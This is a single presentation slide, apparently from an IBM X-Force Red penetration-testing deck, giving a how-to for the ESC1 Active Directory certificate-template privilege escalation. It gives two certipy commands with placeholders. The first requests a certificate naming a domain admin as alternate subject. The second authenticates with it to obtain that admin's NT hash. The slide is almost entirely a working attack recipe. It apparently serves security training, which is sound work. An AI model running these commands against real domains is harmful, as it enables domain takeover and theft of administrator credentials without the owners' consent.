

# DA Privilege Escalation > Misconfigured Certificate Templates: ESC1 – How To
Request a certificate
certipy req -u <user>@<domain> -p <pass> -ca <CAname> -target <CA-FQDN> -template <Templatename> -alt <DA> -out pwned
Auth as that user and get their NT hash
certipy auth -pfx pwned.pfx -username domainAdmin -domain domain.local -dc-ip $dcip

IBM Security X-Force Red / © 2023 IBM Corporation
58